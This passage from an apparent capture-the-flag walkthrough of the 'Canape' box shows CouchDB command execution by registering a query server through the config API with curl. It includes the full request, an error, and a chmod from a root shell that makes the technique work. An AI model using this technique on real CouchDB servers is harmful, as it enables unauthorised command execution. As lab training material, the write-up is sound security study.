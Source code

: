 From there, we should add a query\_server and then invoke it, but we aren’t able to.

```

www-data@canape:/var/www/git$ curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers/cmd' -d '"/sbin/ifconfig > /tmp/df"'
{"error":"badmatch","reason":"{badrpc,{'EXIT',{{{badmatch,{error,eacces}},\n                  [{config_writer,save_to_file,2,\n                                  [{file,\"src/config_writer.erl\"},{line,38}]},\n                   {config,handle_call,3,[{file,\"src/config.erl\"},{line,222}]},\n                   {gen_server,try_handle_call,4,\n                               [{file,\"gen_server.erl\"},{line,629}]},\n                   {gen_server,handle_msg,5,\n                               [{file,\"gen_server.erl\"},{line,661}]},\n                   {proc_lib,init_p_do_apply,3,\n                             [{file,\"proc_lib.erl\"},{line,240}]}]},\n                 {gen_server,call,\n                             [config,\n                              {set,\"query_servers\",\"cmd\",\n                                   \"/sbin/ifconfig > /tmp/df\",true,nil}]}}}}","ref":1617834159}

```

Some Googling shows that this is an issue with permissions. In fact, if we check with out root shell, we can see that the `local.ini` file is not writable by anyone, let alone www-data:

```

root@canape:/home/home/etc# ls -ls local.ini
8 -r--r--r-- 1 homer homer 4841 Sep 14 17:11 local.ini

```

So that’s a dead end for Canape. But if we want to try to get it working, we can make it readable with our root or homer access, and continue down this path. We’ll make a backup of the original so we can see what changes:

```

root@canape:/# cp /home/homer/etc/local.ini /home/homer/etc/local.ini.b
root@canape:/# chmod 666 /home/homer/etc/local.ini

```

Now, back to our www-data shell:

```

www-data@canape:/dev/shm$ curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers/cmd' -d '"/sbin/ifconfig > /tmp/df"'
""

```

We get back the previous value for the cmd query server, which means success. And in the root shell, we can see it worked:

```

root@canape:/home/homer/etc# diff local.ini local.ini.bk
48c48
< cmd = /sbin/ifconfig > /tmp/df
---
> cmd =

```

